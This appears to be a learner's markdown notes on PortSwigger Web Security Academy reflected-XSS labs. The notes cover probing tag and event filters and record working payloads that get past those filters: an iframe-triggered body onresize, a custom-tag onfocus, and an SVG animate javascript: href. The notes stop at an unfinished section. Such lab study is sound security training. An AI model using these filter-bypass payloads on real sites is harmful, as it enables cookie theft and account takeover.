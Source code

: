 #### Reflected XSS into HTML context with most tags and attributes blocked
`<h1>0 search results for 'asdf'</h1>`

- `<script>alert(document.cookie)</script>` tags not allowed.
- `alert(document.cookie)` is not blocked.
- `<>` tags not allowed.
- No URL encoding.

Couldn't figure it out after a long time, so looked at the solution.

- Use Burp to intercept search request.
- Send request to Intruder.
- Copy payloads from cheat sheet.
- Saw that `<body>` returned 200.
- Copy events from cheat sheet.
- `<body resize=1>` returned 200.
- But, we need to resize the body to trigger the payload.
- Therefore, change width `onload`.

```html
<iframe src="https://acd01f971f79e697801234c9007200e0.web-security-academy.net/?search=%3Cbody+onresize%3Dalert%28document.cookie%29%3E" onload=this.style.width='100px'>
```

#### Reflected XSS into HTML context with all tags blocked except custom ones
Intended solution:

```html
<script>
location = 'https://ac511fab1f3d1c45803b260200ad008e.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

#### Reflected XSS with event handlers and href attributes blocked ⭐
I first checked all the tags that are allowed using this [script](xss/rxss-blocked-href-event.py).

```
a
animate
discard
image
svg
title
```

Then after modifying a payload from [here](https://brutelogic.com.br/blog/xss-without-event-handlers/) I got a working payload:
```<svg><a xmlns:xlink=http://www.w3.org/1999/xlink><circle r=400 /><animate attributeName=xlink:href begin=0 from=javascript:alert(1) to=%26>```

Intended solution (which didn't work for me for some reason): `<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>`

#### Reflected XSS with some SVG markup allowed `TBD`

First I checked all the tags allowed using [this](xss/rxss-svg-allowed.py) script.

```
discard
image
svg
title
```

Then I check all the events allowed using the same script.
```
